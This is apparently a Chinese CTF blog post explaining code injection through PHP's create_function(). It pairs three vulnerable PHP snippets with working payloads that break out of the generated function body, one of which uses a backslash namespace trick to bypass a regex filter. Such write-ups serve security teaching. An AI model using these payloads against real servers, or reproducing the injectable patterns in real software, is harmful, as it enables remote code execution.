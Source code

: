 ```yaml
---

layout:     post                    # 使用的布局（不需要改）
title:      create_function()注入               # 标题 
subtitle:    #副标题
date:       2020-01-07              # 时间
author:     Von                      # 作者
header-img: img/post-bg-mma-0.jpg
catalog: true                       # 是否归档
tags:                               #标签
    - Web
    - CTF
    - PHP 

---
```


# create_function()介绍
php中使用create_function()来创建匿名函数。具体用法举例如下:
``` php
create_function('$fname','echo $fname."Zhang"')
```
其等价于
``` php
function fT($fname) {
  echo $fname."Zhang";
}
```

# create_function()的利用

## 1
先来看一段有问题的代码。
``` php
<?php
$id=$_GET['id'];
$str2='echo  '.$a.'test'.$id.";";
echo $str2;
echo "<br/>";
echo "==============================";
echo "<br/>";
$f1 = create_function('$a',$str2);
echo "<br/>";
echo "==============================";
?>
```
payload为:
``` php
?id=;}phpinfo();/*
```
当进行传参后,等价的函数为:
``` php
function f1($a)
{
    echo $a.'test';}
    phpinfo();/*
    ;
}
```
![](/blog_img/create-1.png)

## 2
``` php
<?php
//how to exp this code
$sort_by=$_GET['sort_by'];
$sorter='strnatcasecmp';
$databases=array('test','test');
$sort_function = '  return 1 * ' . $sorter . '($a["' . $sort_by . '"], $b["' . $sort_by . '"]);';
usort($databases, create_function('$a, $b', $sort_function));
?>
```

payload为:
``` php
?sort_by="]);}phpinfo();/*
```

## 3
``` php
<?php
$action = $_GET['action'] ?? '';
$arg = $_GET['arg'] ?? '';

if(preg_match('/^[a-z0-9_]*$/isD', $action)) {
    show_source(__FILE__);
} else {
    $action('', $arg);
}
```
这道题是p牛出的一道题。首先要求不能以字母,数字,下划线开头。思路是在函数的开头加入特定的字符，既能绕过正则又能让函数正常执行。  
经过fuzz,发现在函数前面加入%5c(\\),可以达到以上目的，至于为什么是%5c，p神给出了答案。  
>php里默认命名空间是\，所有原生函数和类都在这个命名空间中。普通调用一个函数，如果直接写函数名function_name()调用，调用的时候其实相当于写了一个相对路径；而如果写\function_name() 这样调用函数，则其实是写了一个绝对路径。如果你在其他namespace里调用系统类，就必须写绝对路径这种写法。

接下来的部分，就是要我们可以利用一个函数，然后我们可控它的第二个参数。在这里我们就想到了create_function()函数，于是我们可以构造这样的payload.
``` php
?action=%5ccreate_function&arg=;}scandir("./");/*
```

# 参考文章
[kevens的文章](https://kevens10.github.io/articles/create_function()%E6%B3%A8%E5%85%A5%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.html);  
[f1sh的文章](http://f1sh.site/2018/11/25/code-breaking-puzzles%E5%81%9A%E9%A2%98%E8%AE%B0%E5%BD%95/)  





